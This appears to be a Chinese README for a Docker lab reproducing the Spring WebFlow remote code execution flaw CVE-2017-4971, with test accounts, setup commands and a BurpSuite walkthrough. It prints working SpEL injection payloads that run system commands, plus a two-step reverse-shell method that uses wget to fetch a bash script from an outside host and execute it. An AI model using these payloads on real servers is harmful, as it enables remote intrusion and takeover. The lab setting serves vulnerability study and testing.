




## Spring WebFlow 远程代码执行漏洞(CVE-2017-4971)

### 漏洞信息

* [CVE-2017-4971：Spring WebFlow 远程代码执行漏洞分析](http://bobao.360.cn/learning/detail/3963.html)

### 影响版本

Spring WebFlow 2.4.0 ~ 2.4.4

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
测试帐号1 | keith | melbourne
测试帐号2 | erwin | leuven
测试帐号3 | jeremy | atlanta
测试帐号4 | scott | rochester
登陆地址 | /login | -
容器tomcat端口 | 8080 | -

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_springwebflow_1
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_springwebflow_1
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`, 假设启动的端口号为 8080

#### PoC

假定目标地址为： http://127.0.0.1:32773

1. 使用测试账号登录目标站 http://127.0.0.1:32773/login

2. 随便找一个酒店(http://127.0.0.1:32773/hotels/1),点 `Book Hotel`

3. 填写订单详情，后点击 `Proceed` 生成订单

 > 注意：Credit Card 这里是 16 位（前端校验）

4. 打开 BurpSuite 准备截包

5. 用 BurpSuite 捕获点击下图 `Confirm` 后的数据包

 

6. 在POST数据包中加入下面这段数据：

 ```
&_T(org.springframework.web.context.request.RequestContextHolder).getRequestAttributes().getResponse().addHeader("vulnerable","True").aaa=n1nty
 ```
 

7. 执行成功后会如上图所示，在 HTTP 返回头部中会多出 `vulnerable` 字段

#### Exp

执行命令：

```
&_T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
```

或者

```
&_(new+java.lang.ProcessBuilder("touch /tmp/success2")).start()=test
```

#### 反弹 Shell 步骤：

> 如果你能改成一次就能反弹Shell的 Exp, 欢迎分享

假定目标地址为： http://127.0.0.1:32774

1. 使用 `wget` 下载远程 bash 脚本

 ```
&_T(java.lang.Runtime).getRuntime().exec("/usr/bin/wget -qO /tmp/1 http://192.168.2.140:8000/1")
 ```
 

2. 执行上一步下载的脚本

 ```
&_T(java.lang.Runtime).getRuntime().exec("/bin/bash /tmp/1")
 ```
 

### 参考链接

* [CVE-2017-4971：Spring WebFlow 远程代码执行漏洞分析](http://bobao.360.cn/learning/detail/3963.html)
* [CVE-2017-4971: Data Binding Expression Vulnerability in Spring Web Flow](https://pivotal.io/security/cve-2017-4971)

